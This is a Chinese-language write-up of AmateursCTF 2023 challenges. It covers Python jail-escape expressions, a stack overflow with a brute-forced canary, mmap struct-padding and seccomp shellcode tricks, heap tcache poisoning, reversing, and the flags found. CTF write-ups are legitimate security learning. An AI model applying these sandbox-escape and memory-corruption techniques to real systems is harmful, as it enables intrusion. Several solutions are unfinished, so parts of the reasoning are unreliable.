

[AmateursCTF 2023](https://ctf.amateurs.team/)

## misc/Discord rules sanity check

> Join the [discord](https://discord.gg/gCX22asy65) and read the rules!

found

> Good job for reading the rules. Here's your sanity check flag: `amateursCTF{be_honest._did_you_actually_read_the_rules?}`

## misc/guessctf

**~~不做了就1分~~**

1. tutorial level

   > ‌‍‍‍‍‍‍‌‌‍‍‌‍‍‌‍‌‍‍‌‌‍‌‍‌‌‍‍‍‌‍‍‌‍‍‌‌‌‌‍‌‌‍‍‌‍‌‍‌‌‍‌‌‌‌‌‌‍‍‍‌‍‍‍‌‍‍‌‌‍‌‍‌‍‍‌‍‍‌‌‌‌‍‍‌‌‌‍‌‌‍‍‍‍‍‍‌‌‌‌‍‌‍‌‌‌‌‌‍‌‍‌‌‍‍‍‌‌‍‍‌‍‍‌‌‍‌‍‌‍‍‌‌‌‍‍‌‍‍‌‍‍‍‍‌‍‍‌‍‍‍‌‌‍‍‌‌‍‌‌‌‌‍‌‌‌‌‌‌‍‍‌‍‌‌‌‌‍‍‌‌‌‌‍‌‍‍‌‍‍‌‌‌‍‍‌‌‍‍‌here's some text:
   > take the md5 hash of this line and repeat it a few times.
   > here's some hex:
   > b21e2deeed503640cded74cfe5511796b21e2deeed503640cded74cfe5511796b21e2deeed503640cded74cfe5511796b21e2deeed503640cded74cfe5511796b21e2deeed503640cded74cfe5511796b21e2deeed503640cded74cfe55170f9dd7a0d8482321860948201bdc52176e5c169429c8970422fed991caac53f72eec63e418b9b355a60a49e4eef85257fffc13e5d8f9e23412fbf8954a6967165f3d372418685291623bf8815bb8c2772f6
   > It's a one time pad with the md5 hash of that line.
   > Cool, got the password yet?

   第二行的MD5是`b21e2deeed503640cded74cfe5511796`

   前面的MD5重复了五次，去掉之后剩下

   `b21e2deeed503640cded74cfe55170f9dd7a0d8482321860948201bdc52176e5c169429c8970422fed991caac53f72eec63e418b9b355a60a49e4eef85257fffc13e5d8f9e23412fbf8954a6967165f3d372418685291623bf8815bb8c2772f6`

**last day, still 0 solve**

smashmaster clone给了个hint：split in half

## forensics/Minceraft

> I found these suspicious files on my minecraft server and I think there's a flag in them. I'm not sure where though.
>
> Note: you do not need minecraft to solve this challenge. Maybe reference the minecraft region file format wiki?

四个mca文件，都是来自地狱的

用[nbtToText](https://github.com/MrPingouinMC/nbtToText/releases/tag/1.0)把最大的两个转成JSON，然后jq格式化一下，直接grep CTF，可以在r.1.135中找到，格式化后大概在11657609行

`amateursCTF{cow_wear_thing_lmao_0f9183ca}`

`grep -n -C 100 'CTF' r.1.135.json`可以看到和Cow有关（我开游戏的时候还以为是新生成的实体

不能直接查找mca文件，因为有可能会被压缩

## web/waiting-an-eternity

打开devtools可以看到一个响应头

```
refresh: 1000000000000000000000000000000000000000000000000000000000000000000000000000000000000000; url=/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a
```

跟着走，在后面的几个请求（前几个请求好像没有）会Set-Cookie发送一个time，把cookie改成`-Inf`即可

`amateursCTF{im_g0iNg_2_s13Ep_foR_a_looo0ooO0oOooooOng_t1M3}`

## web/sanity

一个pastebin，有个report按钮

大概是XSS

```javascript
await page.setCookie({ name: "flag", value: process.env.FLAG });
```

```html

```

qyz发现img可以注入进去~~然后就没然后了~~

我擦，[Sanitizer](https://developer.mozilla.org/en-US/docs/Web/API/Sanitizer/Sanitizer)是实验API，Firefox默认没有开启

要在[about:config](about:config)把`dom.security.sanitizer.enabled`开上

这个sanitizer会把XSS过滤掉

但是`<title>`里面的没有Sanitizer啊，但是这里会被url encode

## rev/rusteze

用ghidra找到main：`_ZN7rusteze4main17hc7c05373efbe52c2E rusteze::rusteze::main`（`00108eb0`）

用cutter打开，找到`0x00008eb0`

通过调试发现：

- 0x00008f2f：完成输出`> `
- 0x55555555cf0f：unwrap `Wrong!`
- 0x55555555cf1c：String::new("Wrong!")
- 0x55555559609f：str Wrong!\n
- 0x5555555aaae0：flag string
- 0x55555555d18d：print Wrong
- 0x55555555d191：end
- 0x55555555cfd3: check1
- 0x55555555d00b: check 1 JMP
- flag长度为38(0x26) chars
- 0x55555555d011: pass check1
- 然后向rsp + 0x11c（0x7FFFFFFFCE7C）写入一堆东西，到rsp + 0x141，共38字节
- 0x55555555d150：向`0x7fffffffcea2 ◂— 0x20000000000000`填充38个零字节
- 0x55555555d155-0x55555555d1ae：无意义花代码
- 0x55555555d30f：不明比较
- 0x55555555d1a5: loop start
- 0x55555555d445: loop end
- 0x55555555d1b4：向rsp + 0x172（0x7FFFFFFFCED2）写入到rsp + 0x197
- 比较的是rsp+0x172和rsp+0x142
- rsp+0x142=((flag ^ (rsp + 0x11c)) << 2) | ((flag ^ (rsp + 0x11c) >> 6)
- 0x55555555d500：检查
- 0x55555555d46b对应ghidra 0010946b
- 使用`calc.js`进行一个爆破

`amateursCTF{h0pe_y0u_w3r3nt_t00_ru5ty}`

## crypto/Compact XORs

根据前面的题，flag格式应该为`amateursCTF{.*}`

可以发现，hex中有不少ASCII可读字符

同时，前面的两个`a`和一个`e`都没有加密

`m`和`t`和对应密文的XOR都是97，`a`的char code

不难发现，加密规则是：

- 单数位置上不加密
- 双数位置上XOR前一个字符

使用`flag.js`求出`amateursCTF{saves_space_but_plaintext_in_plain_sight_862efdf9}`

## osint/Gitint 5e

> One of the repos in the les-amateurs organization is kind of suspicious. Can you find all the *real* flags in that repository and report back? There are 3 flags total, one  of which is worth 0 points. For this challenge, submit the flag with the sha256 hash `5e60b82a7b0860b53b6f100f599a5e04d52faf1a556ea78578e594af2e2ccf7c`

github上的les-amateurs是主办方的org

出题人hellopir2，直接看hellopir2的提交，不多，近期只有hello-ctf和scripts仓库

hello-ctf有个奇怪的PR

但是找不到什么，看到more-CTFd-mods仓库有一个“flagfest{fake_flag}”，大概都是在这个仓库

1. Initial Commit及后一个提交有`amateursCTF{y0u-fOunD_m3;bu7:d1D U r34L!y?}`
2. Commit `b79d333450e705c32bf87ed5752ea80b5d726717`有`flagfest{fake_flag}`

找到一个`flag`分支，检出可以看到提交`19e1db8d5b0f7124630da81ab023b999044098b4`

还有一个Issue：[#1](https://github.com/les-amateurs/more-CTFd-mods/issues/1)，里面有一个pastebin链接

还有PR [#2](https://github.com/les-amateurs/more-CTFd-mods/pull/2)，已经被手动合并到了flag分支，其中的comment被edit过，PR正文也被edit过，

body原文是：

> What's the password, is it like password123456 or something?

paste的密码就是`password123456`，

```python
def flag():
  return "amateursCTF{programs have issues, as do weak passwords}"
```

**？我拿错哈希函数了，原来就是`amateursCTF{y0u-fOunD_m3;bu7:d1D U r34L!y?}`**

## osint/Gitint 7d

哎呀原来没白干

## osint/ScreenshotGuesser

看到截图上面的`US Mobile LTE`得知是美国

~~Google Maps查找“Primavera Foundation US”~~

smwy

## crypto/Non-Quadratic Residues

main.py中的一段代码，

```python
def getModPrime(modulus):
    p = getPrime(1024)
    p += (modulus - p) % modulus
    p += 1
    iters = 0
    while not isPrime(p):
        p += modulus
    return p
```

$$
modulus=166798809782010000000000
$$

这里第三行实际上把p下对齐到了modulus，所以
$$
p=n \cdot modulus + 1
$$
于是
$$
n &= c^{210} \mod b \\
n &= c^{210} \mod (k \cdot 210^{10} + 1) \\
$$
~~根据RSA~~
$$
c \cdot F \equiv 1 \pmod{b} \\
n = c^{210} \pmod{b}
$$

$$
c \cdot F \equiv 1 \pmod{b} \\
c \cdot F \mod{b} = 1 \\
c^{-1} = F \pmod{b} \\
b = k \cdot 210^{10} +1 \\
n = c^{210} \mod b \\
$$

~~做的der不做了~~

## misc/Censorship

```python
compile(_,_,'eval')
compile(_,_,chr(101)+'val')
# globals()['compil'+chr(101)](_,_,chr(101)+'val')
globals()['__buil'+chr(116)+'ins__']
vars(globals()['__buil'+chr(116)+'ins__'])['compil'+chr(101)](_,_,'single')
vars(globals()['__buil'+chr(116)+'ins__'])['compil'+chr(101)](_,_,'singl'+chr(101))
vars(globals()['__buil'+chr(116)+'ins__'])['prin'+chr(116)](_)
```

`amateursCTF{i_l0v3_overwr1t1nG_functions..:D}`

嗯，`vars`是我对着[doc](https://docs.python.org/3/library/functions.html#built-in-funcs)翻出来的

## misc/Censorship Lite

```python
ord('a') / ord('a') == 1
```

因此数字表达可以绕过，影响主要在`globals`

```python
vars(sys)['modules']['builtins']
```

通过sys可以引用到builtins，ASCII大写+空格=小写

```python
vars(sys)['modu'+chr(ord(' ')+ord('L'))+chr(ord(' ')+ord('E'))+'s']['bu'+chr(ord(' ')+ord('I'))+chr(ord(' ')+ord('L'))+chr(ord(' ')+ord('T'))+chr(ord(' ')+ord('I'))+'ns']
vars(vars()['__bu'+chr(ord(" ")+ord("I"))+chr(ord(" ")+ord("L"))+chr(ord(" ")+ord("T"))+chr(ord(" ")+ord("I"))+'ns__'])['pr'+chr(ord(" ")+ord("I"))+'n'+chr(ord(" ")+ord("T"))](_)
```

`amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}`

## rev/volcano

main在`001014a7`

bear的长度要满足：

- l & 1 == 0
- l % 3 == 2
- l % 5 == 1
- l + ((l - (l / 7 >> 1)) + (l / 7 >> 2)) * -7 == 3
- l % 0x6d == 0x37

即

- l为双数
- l除以3余2
- l除以5余1
- l除以0x6d余0x37
- `- l*6 + l / 4 == 3`

`fuzz_bear.js`一扫一大堆，56854346

`fuzz_volcano.js`，29356457

proof的规则：

- 为单数，不为1

- bear和vol十进制位数相同（`00101209`）

  ```c
  long check_1(ulong value)
  {
    ulong i;
    long sum;
    
    sum = 0;
    for (i = value; i != 0; i = i / 10) {
      sum = sum + 1;
    }
    return sum;
  }
  ```

- bear和vol十进制下每一位相加的和相同（`0010124d`）

  ```c
  long check_2(ulong value)
  {
    ulong i;
    long sum;
    
    sum = 0;
    for (i = value; i != 0; i = i / 10) {
      sum = sum + i % 10;
    }
    return sum;
  }
  
  ```

- 不想看了直接爆破~~诶怎么不行~~

  ```c
  uint64_t check3(uint64_t const0x1337, uint64_t value, uint64_t proof)
  {
      ulong var_28h = 0;
      uint64_t var_20h = 0;
      uint64_t var_18h = 0x1337 % proof;
      uint64_t var_8h = 1;
      
      // var_18h = const0x1337 % proof;
      for (var_20h = value; var_20h != 0; var_20h = var_20h >> 1) {
          if ((var_20h & 1) != 0) {
              var_8h = (var_8h * var_18h) % proof;
          }
          var_18h = (var_18h * var_18h) % proof;
      }
      return var_8h;
  }
  
  ```

main位于`0x5555555554a7`

bear = `56854346`

volcano = `29356457`

proof = `2230313`

check3为`0x1ce437`

`amateursCTF{yep_th0se_l00k_th3_s4me_to_m3!_:clueless:}`

## rev/headache

main位于`00401176`

flag长度为0x3d（61）字节

check位于`00401290`

```c
ulong checkflag(uint8_t *flag)
{
    uint32_t uVar1;
    ulong uVar2;
    ulong in_RCX;
    ulong in_RDX;
    uint32_t *puVar3;
    uint32_t *noname_1;
    
    if ((flag[0x19] ^ *flag) != 0x56) {
        return 0;
    }
    puVar3 = fcn.004012a4;
    do {
        *puVar3 = *puVar3 ^ 0xea228de6;
        noname_1 = puVar3 + 1;
        uVar1 = *puVar3;
        puVar3 = noname_1;
    } while (uVar1 != 0xea228de6);
    uVar2 = fcn.004012a4(flag, noname_1, in_RDX, in_RCX);
    return uVar2;
}
```

flag的0x19位XOR第一个字符（`a`）为0x56，所以第25位为`7`

测试flag `amateursCTF{777777777777777777777777777777777777777777777777}`

还修改了`FUN_004012a4`的内容

main位于`0x401176`，check call位于`0x401237`，check位于`0x401290`，对004012a4的调用位于`0x40438c`

```asm
=> 0x4012a4:    mov    r15b,BYTE PTR [rdi+0x2d]
   0x4012a8:    xor    r15b,BYTE PTR [rdi+0xe]
   0x4012ac:    cmp    r15b,0x1d
   0x4012b0:    je     0x404350
   0x4012b6:    xor    eax,eax
   0x4012b8:    ret
   0x4012b9:    nop
   0x4012ba:    nop
   0x4012bb:    nop
```

flag的0x2d和0xe XOR是0x1d

~~哎呀有新的题了不做了~~

## rev/jvm

用[Vineflower](https://github.com/Vineflower/vineflower/releases/tag/1.9.1)进行一个反编译

```bash
java -jar vineflower-1.9.1.jar JVM.class .
```

简单分析后得到`JVM1.java`，可以看到是一个很简单的指令集

用x86混合ARM的风格造了个打印，运行一次得到`out.asm`

可知

- flag为42字符，r0作为cx进行计数
- IP=32处打印NO

然后把整个流程dump出来

```java
            case 32:
               System.out.println(ip + ": READ");
               stack[sp++] = 10;
               ip += 1;
               break;
```

```java
            case 41:
               System.out.println(ip + ": JZ r" + op1 + ", " + op2);
               if (op2 == 37) {
                  System.out.println("---- WARN jump 37");
               }
               if (registers[op1] == 0) {
                  ip = op2;
               } else {
                  ip += 3;
               }
               break;
            case 42:
               System.out.println(ip + ": JNZ r" + op1 + ", " + op2);
               if (op2 == 37) {
                  System.out.println("---- Expected " + (char)(10-registers[op1]));
                  registers[op1] = 0;
               }
               if (registers[op1] != 0) {
                  ip = op2;
               } else {
                  ip += 3;
               }
               break;
            case 43:
               System.out.println(ip + ": JMP " + op1);
               if (op2 == 37) {
                  System.out.println("---- WARN jump 37");
               }
               ip = op1;
               break;
```

虽然在后面IndexOutOfBound了但是大部分flag都拿到了，amasteursCTF直接补上就好

```bash
grep Expected out2.asm | sed -e 's/.*Expected\s//g'
```

`amasteursCTF{wh4t_d0_yoU_m34n_j4v4_isnt_ _vm?}`，中间空格那个字符的判断逻辑比较奇怪，因为用到了`EXCHANGE`，VM没能直接解出来

```
93: POP r0
95: ADD r1, 1
98: EXCHANGE r0, r1
100: ADD r1, r1
103: ADD r2, 7
106: ADD r0, r0
109: SUB r2, 1
112: JNZ r2, 106
106: ADD r0, r0
109: SUB r2, 1
112: JNZ r2, 106
106: ADD r0, r0
109: SUB r2, 1
112: JNZ r2, 106
106: ADD r0, r0
109: SUB r2, 1
112: JNZ r2, 106
106: ADD r0, r0
109: SUB r2, 1
112: JNZ r2, 106
106: ADD r0, r0
109: SUB r2, 1
112: JNZ r2, 106
106: ADD r0, r0
109: SUB r2, 1
112: JNZ r2, 106
115: ADD r0, 2
118: SUB r0, r1
121: SUB r1, r1
124: JNZ r0, 37
```

但是也不难推，同时根据上下文可以直接猜测是`a`或者`A`（我算这一段的时候，算错了两次，一次算成了75

`amateursCTF{wh4t_d0_yoU_m34n_j4v4_isnt_A_vm?}`

## misc/Insanity check

> insanity introduce inspire **something** incredible impulse ivory  intelligence incident implication **hidden** illustrate isolation illusion  indirect instinct inappropriate interrupt infection **in** item inspector  institution infinite insert **the** insist import ignite incentive influence instruction invasion install infrastructure innovation ignore  investment impact improve increase **rules** identification initial immune  inhabitant indulge illness information iron injection interest intention inquiry inflate impound

“something hidden in the rules”，用Discord**客户端**（Web不行）打开rules频道，就会看到列表前面的数字变成了“107122414347637 125839376402043 122524418662265 122549902405493 121377376789885”

hex + from hex

`616d6174657572734354467b6f6f70735f796f755f666f756e645f6d657d`

`amateursCTF{oops_you_found_me}`

thx to qyz

## pwn/rntk

甚至符号表都没删，他真的，我哭死

但是猜对数字没用，要调用到`win`，而这个函数没有直接引用

可以看到

- 随机数使用libc的PRNG，seed为`time(NULL)`，即UNIX Timestamp in seconds
- 完成后生成第一个随机数作为`global_canary`
- guess时使用gets，缓冲区在栈上，由于`gets(3)`没有边界检查，这里可以溢出
- guess时会保存`global_canary`到栈上，并在`gets(3)`后检查
- seed以秒为单位且在启动时生成，可以爆破

因此`canary.c`进行一个爆破

需要注意的是，由于payload包含非ASCII字符，要直接从pipe写入，不能用shell

`amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}`

~~去你的ghidra分析栈结构多出来个变量害得我弄了半天没JMP对~~

我生成的payload跳过了`win`的第一条ENDBR64指令，不跳也行

## pwn/permissions

这个用到了`seccomp`，很神奇的样子

- L28：6秒后自动终止
- L30-41：读取flag
- L44：使flag内存只写
- L55：初始化seccomp
- L57：运行shellcode
- 运行shellcode时，RAX及RDI都指向flag，RDX指向code buffer
- shellcode内存为RWX
- 根据Intel Software Developer Manual 3.4.5.1，x86{,64}支持{Read-Only,Read-Write}{,-expand-down}{,-accessed}，但是没有Write-Only，所以实际上，虽然`mprot`了，内存还是可读的

写一个shellcode（`code.asm`），用NASM编译（注意带上`BITS 64`和`DEFAULT REL`，不然默认是绝对地址，直接调用`write(2)`写到stdout即可

`amateursCTF{exec_1mpl13s_r34d_8751fda0}`

## pwn/i-love-ffi

没有直接读取flag，那就需要shellcode注入了

可以运行shellcode也可以打印buffer

由于没有打开flag.txt，没有fd，只能靠shellcode

先分析下两个struct的结构，

```bash
cargo install bindgen-cli
bindgen chal.c -o chal.rs
rm $(which bindgen)
```

```c
struct MmapArgs {
    uint64_t * addr; // 0
    uint64_t length; // 8
    int protection; // 16
    int flags; // 20
    int fd; // 24
    // padding 4 bytes
    uint64_t offset; // 32
}; // 40
```

可以发现，clang分析时， `fd`和`offset`之间有4bytes对齐，结构应该是40b，但是反编译可以看到，对齐字节，整个结构只有36b

但是在so中

```
001078cd  4c 89 33                  MOV                  qword ptr [RBX],R14 // addr
001078d0  4c 89 7b 08               MOV                  qword ptr [RBX + 0x8],R15 // len
001078d4  89 6b 18                  MOV                  dword ptr [RBX + 0x18],EBP // prot
001078d7  44 89 63 1c               MOV                  dword ptr [RBX + 0x1c],R12D // flags
001078db  44 89 6b 20               MOV                  dword ptr [RBX + 0x20],R13D // fd
001078df  48 89 43 10               MOV                  qword ptr [RBX + 0x10],offset
```

rust中，结构也没有对齐，结构为36b，不过编译出的so中，exec prot判断是直接用寄存器的值，不受影响

此时：

| rs   | addr | addr | len  | len  | offset | offset | prot | flags  | fd     |
| ---- | ---- | ---- | ---- | ---- | ------ | ------ | ---- | ------ | ------ |
| c    | addr | addr | len  | len  | prot   | _flags | fd   | offset | offset |

所以`prot`实际上可以为RWX

```c
#define PROT_READ	0x1		/* Page can be read.  */
#define PROT_WRITE	0x2		/* Page can be written.  */
#define PROT_EXEC	0x4		/* Page can be executed.  */
```

`prot`应该为7

`strace -e open,openat ./chal`发现chal没有打开任何多余的文件，

参考`pwn/permissions`的mmap，可以发现，addr=NULL时，mmap会主动分配内存

fd=-1时，不会映射任何内容，等于分配内存，

```c
read(0, buf, 0x1000);
```

len应该大于0x1000

所以payload应该是，

```
addr = 0
len = 4096
offset = 0
prot = 7
fd = -1
```

由于rs中是parse的u32，-1应该写作0xffffffff，即4294967295，但是这样就过不了PROT_EXEC检查，

offset = 0x700000000

而`MAP_ANON`在大部分libc实现中，不要求fd一定为-1，所以可以尝试其他值

```
0
4096
4294967291
0
0
7
```

可以看到运行时

```
 ► 0x5555555552a0 <main+119>    call   mmap@plt                <mmap@plt>
        addr: 0x0
        len: 0x1000
        prot: 0x7
        flags: 0x22
        fd: 0xfffffffb
        offset: 0x0
```

成功设置了PROT_EXEC，写个`wrapper.c`和`code.asm`进行一个注入

需要注意的是，wrapper要分两次write，不然缓冲区数据加载不进去（猜测是因为rust和libc分两个stdin buffer？反正一次性write会导致buf为空

先`open`然后`read`然后`write`即可

`amateursCTF{1_l0v3_struct_p4dding}`

## pwn/hex-converter

> I kept on getting my hex mixed up while trying to solve unvariant's pwn challenges, so I wrote my own converter to help me out.
>
> Hint: What's in the stack that we can overwrite?

又是一道`gets`的栈覆盖题

hex缓冲区为28b，会输出16个字符的十六进制ASCII

变量在栈中的格式为：

>| 高地址
>
>| i（输出计数，undefined4）
>
>| hex（undefiend1[28]）
>
>| flag（undefined1[64]）
>
>| 低地址

人不能，至少不该，覆盖flag

如果把i覆盖到负数呢，这样`i > 0x10`前就能打印更多字符，了吗？

打印用的是`hex[i]`，负数的时候指针会指向flag，好！

咱要把它覆盖成`-64`

写好`solve.c`完事，注意要sleep一秒不然不知道为什么对面收不到

`616D6174657572734354467B776169745F746869735F7761736E745F737570706F7365645F746F5F62655F7072696E7465645F37363732337D0000000000000031313131313131313131313131313131`

塞进CyberChef选From Hex

`amateursCTF{wait_this_wasnt_supposed_to_be_printed_76723}`

## pwn/perfect-sandbox

seccomp + flag地址随机化

rbx rcx rdx rdi rsi rbp r8 r9 r10 r11 r12 r13 r14 r15都被初始化为0x13371337

rsp为0x13371337000，指向固定的堆栈

rax指向代码

JMP前长这样

```
 RAX  0x7ffff7c79000 ◂— mov r12, rax /* 0x1b8c48949 */
 RBX  0x13371337
 RCX  0x13371337
 RDX  0x13371337
 RDI  0x13371337
 RSI  0x13371337
 R8   0x13371337
 R9   0x13371337
 R10  0x13371337
 R11  0x13371337
 R12  0x13371337
 R13  0x13371337
 R14  0x13371337
*R15  0x13371337
 RBP  0x13371337
 RSP  0x13371337000 ◂— 0x0
*RIP  0x401594 (main+643) ◂— jmp rax
```

flag加载地址为`rand & 0xfffff000 + 0x1337000`，`rand`从`/dev/urandom`读取

使用iaito的pdc反编译：

```
        rax = qword [rbp - 0x28]
        eax = dword [rax]
        eax &= 0xfffff000
        dword [rbp - 0x30] = eax
        eax = dword [rbp - 0x30]
        rax += 0x1337000
        qword [rbp - 0x20] = rax
        rax = qword [rbp - 0x20]
        r9d = 0       // size_t offset
        r8d = 0xffffffff // -1 // int fd
        ecx = 0x22    // '\"' // 34 // int flags
        edx = 3       // int prot
        esi = 0x1000  // size_t length
        rdi = rax     // void*addr
        mmap  ()      // sym.imp.mmap // sym.imp.mmap
```

可以看到：`qword [rbp - 0x20] = rax`，通过gdb观察发现，rsp - 0x20和rsp - 0x28都有指向flag的指针

系统分配的stack不会被释放，且基本可重现，因此可以暂时默认0x7fffffffd280为rsp - 0x20

但是离谱的是，gdb下面能运行，单独运行就爆炸，用coredumpctl开上gdb看，是栈的地址不对

那我把整个栈扫一遍总行吧

`cat /proc/(PID)/smaps | grep stack`获取stack地址

发现gdb调试时为`7ffffffdd000-7ffffffff000`，单独运行时为`7ffedefea000-7ffedf00c000`

栈长这样

```
pwndbg> stack
00:0000│ rsp 0x7fffffffd260 ◂— 0x0
01:0008│     0x7fffffffd268 ◂— 0x300000000
02:0010│     0x7fffffffd270 ◂— 0x346020000
03:0018│     0x7fffffffd278 —▸ 0x7ffff7fc0000 ◂— 0x4602090d
04:0020│     0x7fffffffd280 —▸ 0x47357000 ◂— 'test flag'
05:0028│     0x7fffffffd288 —▸ 0x47357000 ◂— 'test flag'
06:0030│     0x7fffffffd290 —▸ 0x7ffff7c79000 ◂— mov r12, rax /* 0x1b8c48949 */
07:0038│     0x7fffffffd298 —▸ 0x13371337000 ◂— 0x0
```

可以看到，首先，`rsp - 0x20`是指向flag，`rsp - 0x30`是代码位置，会等于代码执行时的`rax`，`rsp - 0x68`和`rsp - 0x70`值相同，`-0x58`指向`0x401311`（`main`），`rsp - 0x40`为1（`argv`），`rsp - 0x80`为0,`-0xf0`指向main，`-0x118`指向`0x401170`（_start），`-0x138`指向`0x401195`

但是此时我们还不能`getpid`，因为seccomp，但是我们可以：`cat /proc/self/smaps | grep stack`

**诶怎么还不能`open`**

根据给出的论文，我们可以通过判断页表缓存后访问时间的差异扫描页。具体的访问操作是由`VMASKMOV`和`VPMASKMOV`完成的，这两个操作可以设置加载掩码，无效页面被遮罩时不会产生异常。

**尝试自己做了个PoC，但是跑不起来，不知道为什么，`KMOVD`会触发`SIGILL`**

正解：从`fs`和`gs`寄存器访问TLS复原栈指针

`[[fs:0x300]-0x50]`

`amateursCTF{3xc3pt10n_suppr3ss10n_ftw}`

## pwn/ELFcrafting-v1

> How well do you understand the ELF file format?

这题要造一个32字节的ELF出来，上[osdev wiki](https://wiki.osdev.org/ELF)查一下ELF的格式

32字节？ELF Header都多少了

但是，我们有shebang啊

```sh
#!/usr/bin/cat flag.txt
```

```
/m/s/w/A/p/ELFcrafting-v1 $ nc amt.rs 31178 < exp.sh
I'm sure you all enjoy doing shellcode golf problems.
But have you ever tried ELF golfing?
Have fun!
read 23 bytes from stdin
wrote 23 bytes to file
amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}
/usr/bin/cat: /dev/fd/3: No such file or directory
```

虽然我不知道为什么`sh`和`cat`都在尝试打开fd 3但是flag出来了就行

`amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}`

## pwn/simple-heap-v1

0x5555555596b0 first chunk

0x5555555596d0 guess chunk

0x5555555596f0 flag

0x5555555596f0 flag

0x5555555596d0 last guess

0x555555559790 0x555555559700 last guess & flag with 32b first guess

0x5555555596f0 flag

堆分配过程：

- first chunk alloc
- guess chunk alloc
- flag alloc/free
- flag alloc/free
- guess chunk free
- last guess alloc
- flag alloc/free

第二次猜测的修改一个字符可以溢出，以及后面flag malloc的时候总是会和guess chunk相隔至少16 bytes

所以，只要我们让guess chunk和flag连起来即可

0x555555555560 get first chunk

[ctf-wiki about tcachebin](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/tcache-attack/#0x03-pwn-tcache)

完成第一次check后长这样

```
+0000 0x5555555596a0  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  │........│!.......│ tcachebin前8b
+0010 0x5555555596b0  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  │aaaaaaaa│aaaaaaaa│ first chunk
+0020 0x5555555596c0  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  │........│!.......│ guess chk的tcachebin前8b
+0030 0x5555555596d0  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  │aaaaaaaa│aaaaaaaa│ guess chunk
+0040 0x5555555596e0  00 00 00 00 00 00 00 00  91 00 00 00 00 00 00 00  │........│........│ flag tcachebin prev size/size
+0050 0x5555555596f0  59 55 55 55 05 00 00 00  48 48 c8 15 ff f4 ab 1b  │YUUU....│HH......│ flag tcachebin next/key
```

此时`Free chunk (tcachebins) | PREV_INUSE`指向e0

由于`printf`打印的是guess，所以要让guess分配到flag的位置，然后给size = 0就可以让数据不被覆盖，但是这样会让check通过，不打印guess，所以要使strcmp失败

~~不能直接修改TCB.fd，因此第二次check的时候需要分配内存，此时guess还没释放，位置上没有TCB~~诶guess里面写一个TCB不就好了

- load payload

- check1 flag alloc/free（entries->flag buf）
- change one char
- check2 flag alloc/free（entries->flag buf）
- guess chunk free（entries->guess buf->flag buf）
- last guess alloc（entries->flag buf）
- flag alloc/free（entries->flag buf）

首先要tcache poisoning我们需要至少两个entry在同一个bin上，不然还要修改`tcache_prethread_struct->count`，一个字节改不来

所以可能是在guess chunk free之后，让flag buf，也就是`guess buf->next`指向guess buf本身，同时guess buf本身要有数据，让`strcmp`不通过

已知`flag buf`为0x80字节，应该分配在第七个bin，guess buf也应该在113-128字节之间

那么payload大概是这样

- 第一个`getchunk`随便写，由于不会释放，不影响tcache
- 第二个guess给120字节，内容随便
- 修改一个字符的时候越界写入flag `tcache_entry->next`指向guess buf
- 最后次guess给120非0字节

## crypto/You get extra information 1

一眼RSA

给出了$p \cdot q$（即$N$），$c = ptxt ^ {e} \mod{N}$，$e = 65537$，$p+2q$

根据RSA的解密方法
$$
n = c^d \bmod {N}
$$
我们需要求出$d$

而$ed\equiv1\pmod{r}$

根据一篇论文：

> Mohammed, Ahmed and Alkhelaifi, Abdulrahman. "RSA: A number of formulas to improve the search for p+qp+q<mml:math><mml:mrow><mml:mi>p</mml:mi><mml:mo>+</mml:mo><mml:mi>q</mml:mi></mml:mrow></mml:math>" *Journal of Mathematical Cryptology*, vol. 11, no. 4, 2017, pp. 195-203. https://doi.org/10.1515/jmc-2016-0046

因为$n = 1 \bmod{100}$且$3 \mid n+1$时，$r = 300k + 102$或$r = 300k + 198$或$r = 60k + 30$

此时：

- $p+q\gt2\sqrt{n}$
- $\sqrt{m^2-4n}$时，$m=p+q$

设$r=p+q$：

- $r_1 = 300k_1 + 102$
- $r_2 = 300k_2 + 198$
- $r_3 = 60k_3 + 30$

算出$2\sqrt{n}$约为$1.8307\times 10^{154}$（1.8307e+154）

由于$r_1$、$r_2$和$r_3$大于$2\sqrt{n}$，

所以：

- $k_1 \gt 6.1023\times 10^{151}$
- $k_3 \gt 6.1023\times 10^{151}$
- $k_3 \gt 3.0512\times 10^{152}$

因为$p+q\gt 1.8307\times 10^{154}$

$p+2q$已知，所以q最大值约为 8.2586e+153，即 $q \lt 8.2586\times 10^{153}$

p最小约为1.0048e+154，即 $p \gt 1.0048\times 10^{154}$
$$
r = (p-1)(q-1)=pq-(p+q)-1
$$
然后没了别算了算你个鬼

直接上z3-solver

2s出结果

## forensics/zipper

> Stare into the zip and the zip stares back.

zip的备注给了一半flag，part1：

`amateursCTF{z1PP3d_`

直接rg

```bash
/m/s/w/A/f/zipper $ rg '}'
flag/flag201.txt
1:Part 4: _Zips}
```

找到最后一半

这没说，还有Part2和3？

使用strings查找找到P3，用ImHex打开可以看到这里实际上是flag目录的comment，但是Ark不显示

```
/m/s/w/A/f/zipper $ strings flag.zip | grep Part
flag/Part 3: laY3r_0fPK
Part 1: amateursCTF{z1PP3d_
```

`amateursCTF{z1PP3d_???laY3r_0f_Zips`

但是奇怪的是搜索结果有好多个`flag/../flag`，使用ImHex把这堆flag改名分开（`flag1.zip.ips`）~~结果发现内容都一样~~

看到DC提示P2有Unicode字符

## forensics/Painfully Deep Flag

```bash
binwalk -e flag.php
cd _flag.pdf.extracted
file *
```

```
